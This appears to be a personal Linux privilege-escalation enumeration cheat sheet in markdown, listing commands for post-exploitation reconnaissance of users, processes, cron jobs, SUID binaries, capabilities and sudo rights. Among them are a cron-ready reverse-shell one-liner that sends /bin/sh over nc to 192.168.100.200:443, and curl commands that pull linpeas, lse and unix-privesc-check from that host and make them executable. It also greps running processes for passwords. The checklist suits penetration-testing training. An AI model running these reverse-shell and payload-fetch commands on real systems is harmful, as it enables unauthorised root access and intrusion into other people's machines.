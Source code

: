 Linux Enumeration Checklist

User(s) and Group(s)
```bash
id
cat /etc/passwd
```

OS and System
```bash
hostname
cat /etc/issue
cat /etc/os-release
arch
uname -a
uname -r	# only kernel version
```

System Process
```bash
ps aux # -a list with tty, -x list without tty, -u for readable
watch -n 1 "ps -aux | grep pass"	# check if daemons or any process has an occurance of 'pass', refreshes every 1s
```

Networks
```bash
ip a	OR	if a
route	OR	routel
ss -anp		OR	netstat -anp
ss -tuln	OR	netstat -tuln
tcpdump	# requires sudo, but check if given perms
```

Firewall (iptables)
```bash
iptables	#if possible
cat /etc/iptables	# debian
```

Cron Tasks
```bash
ls -lah /etc/cron*
cat /etc/crontab	# sys admins usually add scheduled tasks here
crontab -l	# current user's scheduled tasks
sudo crontab -l	# can view more if have permissions - root
grep "CRON" /var/log/syslog
```

Interesting line to add to a Cron job to obtain a reverse shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.200 443 >/tmp/f
```
	
Installed Applications
```bash
dpkg -l (debian)
```

Find writable directories/files (-type f should cover passwd and sudoers)
```bash
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null
```

Find config files
```bash
find / -iname "*conf" -type f 2>/dev/null
```

Drives
```bash
cat /etc/fstab	(drives mounted at boot time)
mount	(all mounted drives)
lsblk	(all available disks)
```

Kernel Modules (Exploit version matching!)
```bash
lsmod	# lists all kernel modules
/sbin/modinfo libata	# provide info on kernel module - requires full binary path to run
```

Find SUID binaries (Hacktricks and GTFObins)
```bash
find / -perm -u=s -type f 2>/dev/null
```

User Config Files
```bash
history
env
cat .bashrc
```

Check sudo capabilities
```bash
sudo -l
```

Elevate to root if can run any command (enter user's password)
```bash
sudo -i
```

List all file systems and disk usage (human readable)
```bash
df -h
```


JUST IN CASE there are any misconfigurations
```bash
ls -la /etc/passwd
ls -la /etc/sudoers
```

Enumerating Capabilities (GTFObins)
```bash
/usr/sbin/getcap -r / 2>/dev/null
```

If no getcap
```bash
curl http://192.168.100.200/getcap > getcap
chmod +x getcap
getcap -r / 2>/dev/null
```

lse/privesc-check
```bash
curl http://192.168.100.200/linuxenum/lse.sh > /tmp/lse.sh
curl http://192.168.100.200/linuxenum/unix-privesc-check > /tmp/unix-privesc-check
curl http://192.168.100.200/peass/linpeas.sh > /tmp/linpeas.sh
chmod +x /tmp/lse.sh
chmod +x /tmp/unix-privesc-check
chmod +x /tmp/linpeas.sh
```

Come up with a wordlist with crunch
```bash
crunch 6 6 -t Lab%%% > wordlist	
```
>-t means pattern, % refers to numbers
>syntax : crunch min-length max-length [options]
